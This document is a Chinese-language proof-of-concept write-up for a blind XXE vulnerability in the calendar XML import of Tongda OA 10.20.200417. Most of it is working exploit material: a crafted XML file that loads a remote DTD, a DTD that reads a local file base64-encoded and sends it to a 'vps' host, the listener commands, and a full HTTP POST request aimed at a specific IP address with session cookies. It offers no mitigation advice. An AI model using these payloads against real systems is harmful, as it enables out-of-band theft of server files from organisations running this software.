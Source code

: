 # TONGDA OFFICE Anywhere 10.20.200417-bind XXE

## 漏洞描述

通达 OA 日程安排，日程数据导入处存在XXE漏洞

## 复现步骤

### 步骤1

修改导入的xml文件，无回显读取本地文件

```xml
<?xml version="1.0" encoding="gbk"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://vps/xxe.dtd">
%remote;%int;%send;
]>
<AFFAIRS>
  <AFFAIR>
    <FLAG>CALENDAR</FLAG>
    <CAL_TIME>2020-08-19 20:00:00</CAL_TIME>
    <END_TIME>2020-08-19 20:30:00</END_TIME>
    <CAL_TYPE></CAL_TYPE>
    <CAL_LEVEL>0</CAL_LEVEL>
    <CONTENT>cyberlab</CONTENT>
    <MANAGER_ID></MANAGER_ID>
  </AFFAIR>
  <AFFAIR>
    <FLAG>CALENDAR</FLAG>
    <CAL_TIME>2020-08-19 16:00:00</CAL_TIME>
    <END_TIME>2020-08-19 16:30:00</END_TIME>
    <CAL_TYPE>1</CAL_TYPE>
    <CAL_LEVEL>0</CAL_LEVEL>
    <CONTENT>11111</CONTENT>
    <MANAGER_ID></MANAGER_ID>
  </AFFAIR>
</AFFAIRS>
```

远程vps主机创建xxe.dtd，内容如下所示，读取本地的flag.txt文件

```shell
root@iZwz9akazugpwbrb1xtlw8Z:~# cat /tmp/tmp/xxe.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file://D:/flag.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://vps:9999?p=%file;'>">

```

提供http server

```shell
root@iZwz9akazugpwbrb1xtlw8Z:/tmp/tmp/recv# python -m SimpleHTTPServer 9999
Serving HTTP on 0.0.0.0 port 9999 ...


```

```shell
root@iZwz9akazugpwbrb1xtlw8Z:/tmp/tmp/# python -m SimpleHTTPServer 65531
Serving HTTP on 0.0.0.0 port 65531 ...


```



### 步骤2

提交如下poc：

```
POST /general/calendar/in_out/import_xml.php HTTP/1.1
Host: 211.138.191.187:88
Content-Length: 1192
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarym6iluHiJGivtWxrd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/calendar/in_out/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r5dr5gthsdma6h40pcplgehen2; SID_3795=50974747
Connection: close

------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="XML_FILE"; filename="日程.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="gbk"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://vps:65531/xxe.dtd">
%remote;%int;%send;
]>
<AFFAIRS>
  <AFFAIR>
    <FLAG>CALENDAR</FLAG>
    <CAL_TIME>2020-08-19 20:00:00</CAL_TIME>
    <END_TIME>2020-08-19 20:30:00</END_TIME>
    <CAL_TYPE></CAL_TYPE>
    <CAL_LEVEL>0</CAL_LEVEL>
    <CONTENT>cyberlab</CONTENT>
    <MANAGER_ID></MANAGER_ID>
  </AFFAIR>
  <AFFAIR>
    <FLAG>CALENDAR</FLAG>
    <CAL_TIME>2020-08-19 16:00:00</CAL_TIME>
    <END_TIME>2020-08-19 16:30:00</END_TIME>
    <CAL_TYPE>1</CAL_TYPE>
    <CAL_LEVEL>0</CAL_LEVEL>
    <CONTENT>11111</CONTENT>
    <MANAGER_ID></MANAGER_ID>
  </AFFAIR>
</AFFAIRS>

------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="FILE_NAME"

日程.xml
------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="FROM_OUTLOOK_OA"

2
------WebKitFormBoundarym6iluHiJGivtWxrd
Content-Disposition: form-data; name="CAL_AFF_TASK"

1
------WebKitFormBoundarym6iluHiJGivtWxrd--

```



### 步骤3

远程主机收到请求：

![image-20200819223622585](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223622585.png)

监听端口收到了读取的本地文件内容，内容经过base64编码如下所示：

![image-20200819223635939](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223635939.png)


Base64解码，得到文件内容：

![image-20200819223642616](C:\Users\jk\AppData\Roaming\Typora\typora-user-images\image-20200819223642616.png)

